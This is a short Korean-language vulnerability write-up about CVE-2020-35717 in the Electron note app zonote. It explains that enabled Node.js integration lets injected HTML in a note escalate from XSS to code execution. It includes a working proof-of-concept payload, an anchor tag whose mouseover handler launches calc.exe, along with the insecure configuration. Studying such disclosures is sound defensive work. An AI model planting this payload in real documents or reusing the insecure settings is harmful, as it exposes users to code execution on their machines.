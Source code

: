 ```yaml
---

title: "[하루한줄] CVE-2020-35717: RCE through XSS"
author: Fabu1ous

tags: [Fabu1ous, cve, rce, xss]

categories: [1day1line]

date: 2021-01-06 18:00:00

cc: true

index_img: /img/1day1line.png
---
```




## URL

[zonote RCE through XSS](https://medium.com/bugbountywriteup/remote-code-execution-through-cross-site-scripting-in-electron-f3b891ad637)



## Target

zonote <= 0.4.0



## Explain

문서 작성 Electron App인 zonote에서 RCE 취약점이 공개되었습니다. zonote 문서에 마크다운과 html을 삽입해 XSS(Cross-Site-Script) 공격을 할 수 있는데 악용 범위를 RCE까지 확장할 수 있습니다. 

> It is paramount that you do not enable Node.js integration in any renderer (`BrowserWindow`, `BrowserView`, or `<webview>`) that loads remote content.

[Electron의 공식문서](https://www.electronjs.org/docs/tutorial/security#2-do-not-enable-nodejs-integration-for-remote-content)에 따르면 원격 콘텐츠에 접근하는 모든 renderer는 Node.js intergration이 비활성화되어있어야 합니다. XSS 취약점이 존재해도 그 악용 범위를 renderer 내부로 제한하기 위해 Electron 5.0.0부터 권장해온 기본 설정입니다. 

* 다음은 zonote의 main.js코드 일부입니다.

```js
const browserWindowsOptions = {
    ...
    webPreference: {
        nodeIntergration : true,
        enableRemoteModule : true
    }
}
```

Node.js intergration이 활성화되어있으므로 XSS를 통한 RCE 취약점이 존재합니다.

* PoC

```markdown
<a onemouseover="
try{
	const {shell} = require('electron');
	shell.openExternal('file:C:/Windows/System32/calc.exe')
}catch(e){
	console.error(e)
}">Hover Me</a>
```



